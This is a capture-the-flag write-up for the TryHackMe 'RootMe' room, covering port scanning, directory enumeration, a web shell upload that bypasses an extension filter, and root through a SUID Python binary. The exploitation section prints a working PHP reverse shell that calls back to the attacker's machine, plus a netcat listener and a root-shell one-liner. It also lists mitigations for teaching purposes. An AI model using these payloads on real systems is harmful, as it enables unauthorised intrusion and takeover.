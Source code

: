 [RootMe](https://tryhackme.com/room/rrootme)

**Date:** [DD/MM/YYYY]  
**Platform:** [TryHackMe / HackTheBox / PicoCTF / Custom]  
**Difficulty:** [Easy]  
**Objective:** [Reconnaissance, getting a shell, privilege escalation, capture the flag.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.120.173]  
**Service/Ports:** [22/SSH, 80/HTTP]  
**Entry Point:** [Web shell upload: shell.phtml because .php wasn't accepted.]  
**Privilege Escalation:** [SUID binary]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

### Passive

## Active

nmap -sS -sV -sC 10.10.120.173
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

----

## 4. Enumeration
   Web: gobuster
    
Findings:
```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.120.173/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.120.173/panel/]
```


----

## 5. Exploitation

   On /Panel there is an upload option to test if it is possible to upload a web shell.

   Exploit script:
```
<?php
$sock=fsockopen("10.21.***.***",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
Set up listener:
```
nc -lvnp 4444
```

Gained Access As: www-data

----

## 6. Privilege Escalation

   Method: SUID
```
/usr/bin/python
```
    
 GTFObin:
    ```
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```

Escalated To: root

----

## 7. Post Exploitation

Root Flag found at /root/root.txt

----

## 8. Flags / Proof

User Flag: THM{***_***_*_*****}

Root Flag: THM{********_**********}

    
        

----

## 9. Mitigations

| Vulnerability             | Risk   | Suggested Mitigation                                           |
|---------------------------|--------|-----------------------------------------------------------------|
| SUID bit from Python      | High   | chmod u-s /usr/bin/python                                       |
| Misconfigured Web Server  | High   | Strict File Type Validation; Only allow specific types          |


----

## 10. Notes

Time spent: [e.g., 30 minutes]

 Tools used: nmap, gobuster

 Lessons learned: [This CTF highlighted the critical risk of insecure file upload mechanisms, where bypassing extension filters led to remote code execution. It also reinforced the importance of auditing SUID binaries, as simple misconfigurations enabled privilege escalation to root.]

